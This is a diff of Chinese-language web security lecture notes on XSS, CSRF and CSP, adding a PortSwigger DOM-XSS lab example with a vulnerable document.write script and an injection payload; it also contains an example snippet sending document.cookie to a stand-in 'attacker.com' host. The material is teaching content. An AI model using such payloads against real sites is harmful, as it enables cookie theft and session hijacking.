

Before and after one commit to hu-guanwei/websec, a Markdown page: notes/lecture7 Defence of XSS, CSP.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
add XSS lab eg

````diff
--- a/notes/lecture7 Defence of XSS, CSP.md
+++ b/notes/lecture7 Defence of XSS, CSP.md
@@ -1,6 +1,6 @@
 #### Content Security Policy (CSP)
 - Same Origin Policy prohibits cross-origin fetch.
-> SOP 主要是为了保护被fetch的网站。但是SOP不禁止跨源提交表单，于是可以CSRF攻击。（没想到吧，让受害者访问攻击者网站，在受害者不知情的情况下偷偷带着cookie发送请求到目标网站比如转走处于登陆状态的受害者的银行账户里的钱财）。SOP也不禁止跨源加载静态资源，可以利用`<svg onload="'attacker.com?q='+document.cookie">`盗取cookie.（没有想到被fetch的网站可以是攻击者的吧，通过get请求在url中携带的参数把cookie偷走）
+> SOP 主要是为了保护被fetch的网站。但是SOP不禁止跨源提交表单，于是可以CSRF攻击。（没想到吧，让受害者访问攻击者网站，在受害者不知情的情况下偷偷带着cookie发送请求到目标网站比如转走处于登陆状态的受害者的银行账户里的钱财）。SOP也不禁止跨源加载静态资源，可以利用`<svg onload="'attacker.com?q='+document.cookie">`盗取cookie.（没有想到被fetch的网站反而是攻击者的吧，通过get请求在url中携带的参数把cookie偷走）
 - Previously, we talked about ways to tighten up Same Origin Policy in terms of which sites could e.g. send requests with cookies to our site (CSRF)
     - That is, preventing other sites from making certain requests to our site 防御CSRF，在server端用origin allowlist
 - CSP is inverse: prevent our site from making requests to other sites
@@ -76,3 +76,19 @@ KIMI chat: 插入到DOM和反射型XSS之间的关键区别在于攻击的触发
 - **攻击方式**：反射型XSS依赖于服务器将恶意数据作为响应发送给用户，而DOM-XSS依赖于客户端JavaScript代码将数据插入到DOM中。
 
 简而言之，反射型XSS是服务器将恶意脚本作为响应发送给用户，而DOM-XSS是客户端JavaScript将数据动态插入到DOM中，然后执行。两者的主要区别在于攻击的触发点和数据处理的位置。
+
+例子 https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink
+
+这个页面有脚本
+```html
+<script>
+function trackSearch(query) {
+    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
+}
+var query = (new URLSearchParams(window.location.search)).get('search');
+if(query) {
+    trackSearch(query);
+}
+</script>
+```
+其中`query`是通过GET请求url参数`search`传入，可以构造payload`" onload=alert(1) >//`
````
